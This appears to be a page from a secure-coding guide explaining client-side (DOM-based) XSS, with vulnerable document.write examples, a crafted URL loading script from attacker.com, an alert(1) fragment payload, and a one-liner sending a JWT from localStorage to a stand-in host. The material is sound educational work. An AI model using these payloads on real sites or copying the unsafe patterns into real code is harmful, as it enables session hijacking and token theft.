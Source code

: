 Client XSS
==========

Per definition "_Client XSS vulnerability occurs when untrusted user supplied
data is used to update the DOM with an unsafe JavaScript call. A JavaScript call
is considered unsafe if it can be used to introduce valid JavaScript into the
DOM._". ([source][1]).

The "untrusted user supplied data" has multiple sources such as the DOM itself,
the URL e.g. a query string parameter or the fragment or even from a server
request. Client side store locations like `Cookies` or `Local Storage` are also
potential sources of XSS payloads.

As an example, consider the following script used to display ads on a website:

```JavaScript
document.write('<script type="text/JavaScript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious JavaScript from a
location he/she is in control of, injecting it into the web page of which the
victim is visiting.

```
http://www.example.com/?req=https://www.attacker.com/poc/xss.js
```

To perform this attack, an attacker crafts an URL like the one above, sending it
to the victim. Upon clicking it, the `https://www.attacker.com/poc/xss.js`
script is requested by the ad snippet, making it run in the `www.example.com`
context.

This could be the initial step of a [Session Hijacking attack][2] as an
attacker's script may have access to the session cookie (if it was not properly
set as `httpOnly`) or to the `localStorage` where a JSON Web Token (JWT) may be
found:

```javascript
(new Image).src = '//attacer.com?jwt='+localStorage.get('JWT');
```

The sample above is a common example of how to exfiltrate data. Bypassing the
[Same Origin Policy][3] as the `JWT` value read from `localStorage` is sent as
part of the URL from where an image was supposed to load.


As we stated before, there are many "untrusted data" sources.
Some client-side frameworks use the URL fragment to identify resources or
application states; although the fragment is part of the URL, it is not sent to
the sever.

The following script is very simple and for demonstration purposes only, but
encompasses the concept of URL fragment as source of untrusted data. Assuming
that the following script is somewhere in the target page:

```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

Thus the following URL would trigger the famous `alert(1)` modal.

```
http://example.com/fragment.html#<script>alert(1)</script>
```

To know how to prevent XSS in general, please follow the guidelines provided in
[How to prevent XSS section][4].

[1]: https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS
[2]: https://www.owasp.org/index.php/Session_hijacking_attack
[3]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[4]: how-to-prevent.md

